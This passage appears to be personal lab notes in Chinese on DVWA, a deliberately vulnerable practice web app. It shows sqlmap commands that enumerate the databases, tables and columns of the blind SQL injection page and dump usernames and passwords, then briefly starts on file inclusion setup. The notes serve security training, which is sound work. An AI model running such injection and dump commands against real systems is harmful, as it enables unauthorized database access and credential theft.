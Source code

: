 ```
D:\sqlmap>sqlmap.py -u "http://192.168.120.129/dvwa/vulnerabilities/sqli_blind/" --data "id=1&Submit=Submit" --cookie "id=1; security=high; PHPSESSID=prasunu4qhs3eutb08uj24r3p0" --batch
```

![截图录屏_选择区域_20210127155831](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127155831.png)

4.获取数据库

```
D:\sqlmap>sqlmap.py -u "http://192.168.120.129/dvwa/vulnerabilities/sqli_blind/" --data "id=1&Submit=Submit" --cookie "id=1; security=high; PHPSESSID=prasunu4qhs3eutb08uj24r3p0" --batch --dbs
```

![截图录屏_选择区域_20210127155934](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127155934.png)

5.获取dvwa库中的表

```
D:\sqlmap>sqlmap.py -u "http://192.168.120.129/dvwa/vulnerabilities/sqli_blind/" --data "id=1&Submit=Submit" --cookie "id=1; security=high; PHPSESSID=prasunu4qhs3eutb08uj24r3p0" --batch -D dvwa --tables
```

![截图录屏_选择区域_20210127160100](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127160100.png)

6.获取user表中的列

```
D:\sqlmap>sqlmap.py -u "http://192.168.120.129/dvwa/vulnerabilities/sqli_blind/" --data "id=1&Submit=Submit" --cookie "id=1; security=high; PHPSESSID=prasunu4qhs3eutb08uj24r3p0" --batch -D dvwa -T users --columns
```

![截图录屏_选择区域_20210127160212](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127160212.png)

7.获取user和password的信息

```
D:\sqlmap>sqlmap.py -u "http://192.168.120.129/dvwa/vulnerabilities/sqli_blind/" --data "id=1&Submit=Submit" --cookie "id=1; security=high; PHPSESSID=prasunu4qhs3eutb08uj24r3p0" --batch -D dvwa -T users -C user,password --dump
```

![截图录屏_选择区域_20210127160330](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127160330.png)

## 文件包含

1.enable问题

打开发现提示为不允许

![截图录屏_选择区域_20210128194819](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210128194819.png)

在phpstudy中进行设置

![截图录屏_选择区域_20210128195138](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210128195138.png)
